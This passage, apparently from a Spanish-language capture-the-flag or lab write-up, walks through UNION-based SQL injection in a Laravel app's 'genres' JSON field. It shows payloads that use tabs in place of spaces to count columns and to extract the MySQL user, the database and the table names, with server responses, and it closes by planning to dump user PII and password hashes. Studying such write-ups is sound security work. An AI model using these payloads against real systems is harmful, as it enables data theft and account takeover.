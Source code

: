 Ya que podemos ver lo que devuelve la query SQL, podemos hacer uso de `UNION` para alterar los valores que se obtienen y retornan; el número de columnas podemos obtenerlo por simples pruebas con UNION, como esta:

```json
{
    "genres":"')\tUNION\tSELECT\t1,2,3,4,5\t--\t-"
}
```

Probando, obtenemos que el número de columnas que se seleccionan es de 5

```json
{
    "status":"success",
    "data":[
        {
            "id": 1,
            "file": "2",
            "genre": "3",
            "created_at": "1970-01-01T00:00:04.000000Z",
            "updated_at": "1970-01-01T00:00:05.000000Z",
            "url": "\/storage\/2"
        }
    ]
}
```

Ahora, ya que podemos ver cosas podemos tratar de obtener la base de datos actual, usuario de MySQL y las tablas de la base de datos actual

```json
{
    "genres":"')\tUNION\tSELECT\tuser(),database(),(SELECT\tgroup_concat(table_name)\tFROM\tinformation_schema.tables\tWHERE\ttable_schema=database()),4,5\t--\t-"
}
```

```json

{
    "status":"success",
    "data":[
        {
            "id": 0,
            "file": "intentions",
            "genre": "gallery_images,personal_access_tokens,migrations,users","created_at": "1970-01-01T00:00:04.000000Z",
            "updated_at": "1970-01-01T00:00:05.000000Z",
            "url": "\/storage\/laravel@localhost"
        }      
    ]
}
```

La tabla `users` es de nuestro interés, obtengamos sus columnas que contengan PII y hashes que nos puedan permitir elevar nuestro privilegio en el sitio; después de eso simplemente usaremos `group_concat` para tener una lista de todo lo interesante
